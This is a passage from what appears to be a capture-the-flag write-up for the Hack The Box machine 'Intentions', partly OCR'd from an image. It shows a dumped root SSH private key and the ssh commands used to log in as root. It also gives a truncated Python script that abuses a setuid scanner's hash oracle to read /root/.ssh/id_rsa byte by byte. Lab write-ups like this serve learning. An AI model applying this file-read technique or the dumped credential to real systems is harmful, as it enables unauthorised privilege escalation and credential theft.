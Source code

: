 z4rypyNhpvgVs3DIupByPjSw1FZ+2jbYQSIPTsiFcKey15d3IFK1jOErb2GWchqSExUf9S
o2gkIyw57IWTuzqzPzy1ncoqatsmbTaAee5L82z0aV7uwDWzPMFd3MpPzmbdC2XYXzLibC
bBS4WbnwA8D1UStQdKDI3J5Y4VLlb2CbZvCIP/HwvWRHMnBevRPpwQIg7lJpAwIXY9IpQ+
txGy6H+K0JgbmFED8vyjFMBrowlAUCsN213TjLP46up/GyuxEXByBMerk3cIBOlpSUIYAK
eoU+woiDat+GdghXfbdsdaNuPiTgEI/SQrm0WtXzjBbPDqhAYhkB5jiI5lI+8de2IMH4bO
DvAEA744Ys1qKf+zY4O15u6Lsc6F3QAAAAMBAAEAAAGABGD0S8gMhE97LUn3pC7RtUXPky
tRSuqx1VWHu9yyvdWS5g8iToOVLQ/RsP+hFga+jqNmRZBRlz6foWHIByTMcOeKH8/qjD4O
9wM8ho4U5pzD5q2nM3hR4G1g0Q4o8EyrzygQ27OCkZwi/idQhnz/8EsvtWRj/D8G6ME9lo
pHlKdz4fg/tj0UmcGgA4yF3YopSyM5XCv3xac+YFjwHKSgegHyNe3se9BlMJqfz+gfgTz3
8l9LrLiVoKS6JsCvEDe6HGSvyyG9eCg1mQ6J9EkaN2q0uKN35T5siVinK9FtvkNGbCEzFC
PknyAdy792vSIuJrmdKhvRTEUwvntZGXrKtwnf81SX/ZMDRJYqgCQyf5vnUtjKznvohz2R
0i4lakvtXQYC/NNc1QccjTL2NID4nSOhLH2wYzZhKku1vlRmK13HP5BRS0Jus8ScVaYaIS
bEDknHVWHFWndkuQSG2EX9a2auy7oTVCSu7bUXFnottatOxo1atrasNOWcaNkRgdehAAAA
wQDUQfNZuVgdYWS0iJYoyXUNSJAmzFBGxAv3EpKMliTlb/LJlKSCTTttuN7NLHpNWpn92S
pNDghhIYENKoOUUXBgb26gtg1qwzZQGsYy8JLLwgA7g4RF3VD2lGCT377lMD9xv3bhYHPl
lo0L7jaj6PiWKD8Aw0StANo4vOv9bS6cjEUyTl8QM05zTiaFk/UoG3LxoIDT6Vi8wY7hIB
AhDZ6Tm44Mf+XRnBM7AmZqsYh8nw++rhFdr9d39pYaFgok9DcAAADBAO1D0v0/2a2XO4DT
AZdPSERYVIF2W5TH1Atdr37g7i7zrWZxltO5rrAt6DJ79W2laZ9B1Kus1EiXNYkVUZIarx
Yc6Mr5lQ1CSpl0a+OwyJK3Rnh5VZmJQvK0sicM9MyFWGfy7cXCKEFZuinhS4DPBCRSpNBa
zv25Fap0Whav4yqU7BsG2S/mokLGkQ9MVyFpbnrVcnNrwDLd2/whZoENYsiKQSWIFlx8Gd
uCNB7UAUZ7mYFdcDBAJ6uQvPFDdphWPQAAAMEA+WN+VN/TVcfYSYCFiSezNN2xAXCBkkQZ
X7kpdtTupr+gYhL6gv/A5mCOSvv1BLgEl0A05BeWiv7FOkNX5BMR94/NWOlS1Z3T0p+mbj
D7F0nauYkSG+eLwFAd9K/kcdxTuUlwvmPvQiNg70Z142bt1tKN8b3WbttB3sGq39jder8p
nhPKs4TzMzb0gvZGGVZyjqX68coFz3k1nAb5hRS5Q+P6y/XxmdBB4TEHqSQtQ4PoqDj2IP
DVJTokldQ0d4ghAAAAD3Jvb3RAaW50ZW50aW9ucwECAw==
-----END OPENSSH PRIVATE KEY-----
```
- Save it on our local machine, assign privileges and ssh into target as root
	```bash
vi root > copy key
chmod 0600 root
ssh -i root root@intentions.htb
```
	- We gain root access!

## Better script from walkthrough
- script
	```bash
import string
import hashlib
import subprocess

base = ""
hasResult = True
hashMap = {}
readFile = "/root/.ssh/id_rsa"

def checkMatch():
	global base
	global hashMap
	result = subprocess.Popen(["/opt/scanner/scanner","-c",readFile,"-h","./hash.log","-l",str(len(base) + 1)], stdout=subprocess.PIPE)
	for line in result.stdout:
		#print(line)
		line = str(line)
		if "[+]" in line:
			check = line.split(" ")
			if len(check) == 4:
				if check[1] in hashMap:
					base = hashMap[check[1]]
					return True
	return False
